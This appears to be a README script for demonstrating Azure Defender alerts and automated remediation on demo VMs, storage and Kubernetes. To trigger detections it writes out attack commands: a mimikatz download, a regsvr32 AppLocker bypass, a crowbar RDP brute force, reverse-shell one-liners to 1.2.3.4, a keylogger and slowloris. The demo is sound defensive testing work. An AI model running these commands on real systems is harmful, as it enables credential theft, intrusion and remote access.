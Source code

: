 # Infrastructure demo

## Posture management - secure score, best practicies, vulnerabilities
### Vulnerabilities
Check vulnerabilities found in VMs (by Qualys engine), container images, storage accounts, recommended security configurations.

### Policies - VMs, Kubernetes, Policy as Code
- Explain policy as code principles
- In policy definitions show examples:
    - Azure policy -> search for:
        - locations
        - backup
        - encrypt
        - firewall
        - logs
    - OS level policies -> search for audit
    - Containers and Kubernetes policies -> search for container
- Search for initiatives such as ISO 27001
- Remediations
- Blueprints

## Threat protection and automation

### Windows Host level protection
Search for alerts such as suspicious process or RDP attack.

To generate some alerts, you can run the following on monitored VM.

```powershell
# Create file with malware test content
'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' | Out-File EICAR.com

# Copy svchost.exe to non-standard location and execute it
Copy-Item -Path C:\Windows\System32\svchost.exe C:\
C:\svchost.exe

# Download and expand mimikatz
https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12 
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip","c:\install\mimikatz_trunk.zip")
cd c:\install
Expand-Archive -LiteralPath 'c:\install\mimikatz_trunk.zip'

# Attempt to bypass App Locker
echo '<?XML version="1.0"?>' | Out-File test.sct
echo '<scriptlet>' | Out-File -Append test.sct
echo '<registration' | Out-File -Append test.sct
echo ' progid="TESTING"' | Out-File -Append test.sct
echo ' classid="{A1112221-0000-0000-3000-000DA00DABFC}" >' | Out-File -Append test.sct
echo ' <script language="JScript">' | Out-File -Append test.sct
echo ' <![CDATA[' | Out-File -Append test.sct
echo ' var foo = new ActiveXObject("WScript.Shell").Run("powershell.exe InvokeWebRequest -OutFile eicar.com http://www.eicar.org/download/eicar.com");' | Out-File -Append test.sct
echo ' ]]>' | Out-File -Append test.sct
echo '</script>' | Out-File -Append test.sct
echo '</registration>' | Out-File -Append test.sct
echo '</scriptlet>' | Out-File -Append test.sct
regsvr32.exe /s /u /i:test.sct scrobj.dll
```

From Linux machine initiate RDP brute force attack. 

```bash
# Download 500 worst passwords dictionary
wget http://downloads.skullsecurity.org/passwords/500-worst-passwords.txt.bz2
bzip2 -d 500-worst-passwords.txt.bz2

# Install crowbar and run RDP dictionary attack
sudo apt install -y ubuntu-desktop nmap openvpn freerdp-x11 tigervnc-viewer python3 python3-pip

git clone https://github.com/galkan/crowbar
cd crowbar/
pip3 install -r requirements.txt

./crowbar.py -b rdp -u administrator -C ../500-worst-passwords.txt -s 10.0.0.4/32 -v -D -n1
./crowbar.py -b rdp -u tomas -C ../500-worst-passwords.txt -s 10.0.0.4/32 -v -D -n 1
./crowbar.py -b rdp -u tomas -c Azure12345678 -s 10.0.0.4/32 -v -D -n 1
```

Use automation to isolate RDP access (Logic App with NSG). Before running this demo go to connectors or inside Logic App and authorize connections to Office365.

1. Open Alert that includes attacker IP (eg. RDP brute force attack)
2. In portal show VM blade with Networking - RDP from inside VNET is allowed without restrictions
3. Take action on alert by invoking isolateVm Logic App
4. Check VM blade again for blocking rule on Networking
5. You will also receive email message

As preventive measure consider no direct access to machines at all, only privileged access workstation (jump server) such as Azure Bastion. Configure Network Security Group to enable RDP access only from Bastion service and demonstrate Bastion via browser on Azure portal.

```powershell
$resourceGroupName = "azdefender"
$nsgName="azdefender-nsg"
$bastionSourceRange="10.0.1.0/24"

# Get the NSG resource
$nsg = Get-AzNetworkSecurityGroup -Name $nsgName -ResourceGroupName $resourceGroupName

# Add the inbound security rule to allow RDP from Bastion subnet
$nsg | Add-AzNetworkSecurityRuleConfig -Name "AllowRdpFromBastion" -Description "Allow RDP from Bastion subnet" -Access Allow `
    -Protocol Tcp -Direction Inbound -Priority 150 -SourceAddressPrefix $bastionSourceRange -SourcePortRange * `
    -DestinationAddressPrefix * -DestinationPortRange 3389

# Add the inbound security rule to deny all other RDP access
$nsg | Add-AzNetworkSecurityRuleConfig -Name "DenyAllRdp" -Description "Deny all RDP access" -Access Deny `
    -Protocol Tcp -Direction Inbound -Priority 151 -SourceAddressPrefix "*" -SourcePortRange * `
    -DestinationAddressPrefix * -DestinationPortRange 3389

# Update the NSG.
$nsg | Set-AzNetworkSecurityGroup
```

### Linux Host level protection
Generate suspicious activity on Linux VM.

```bash
# Attempt to create revese shell
nc -e /bin/bash 1.2.3.4 1234
bash -i>& /dev/tcp/1.2.3.4/1234 0>&1

# Add and remove kernel module
# sudo insmod /lib/modules/5.4.0-1031-azure/kernel/drivers/firewire/nosy.ko 
# sudo rmmod /lib/modules/5.4.0-1031-azure/kernel/drivers/firewire/nosy.ko 

# Run questionable tools
logkeys --start
perl slowloris.pl -dns server.contoso.com

# Store malware file
echo 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' > ./EICAR.com
```

Check alert in Azure Defender.

### Storage protection
As per demo install instructions (README.md) we have already uploaded EICAR test malware file to blob storage.

Before running this demo go to connectors or inside Logic App and authorize connections to Office365.

Demonstrate blob malware automation:
1. Open alerts that malware was detected in Blob Storage
2. Open Blob Storage and show files is there
3. Click on alert and take action by executing azdefenderDeleteBlob Logic App
4. You will receive email - click on delete button
5. Show file has been deleted, yet is recoverable due to Soft Delete feature
6. Show confirmation email

### Kubernetes protection
Open Azure Cloud Shell (bash) and install few resources that run privileged container, create new highly privileged role and create new cluster-role binding on admin.

```powershell
$resourceGroupName = "azdefender"
Import-AzAksCredential -ResourceGroupName $resourceGroupName -Name $(Get-AzResourceGroupDeployment -ResourceGroupName $resourceGroupName -Name azdefender-infra).outputs.kubeName.Value -Force

kubectl apply -f https://raw.githubusercontent.com/tkubica12/azdefender-demo/master/kubernetes/resources.yaml 
```

After some time check alerts in Azure Defender.

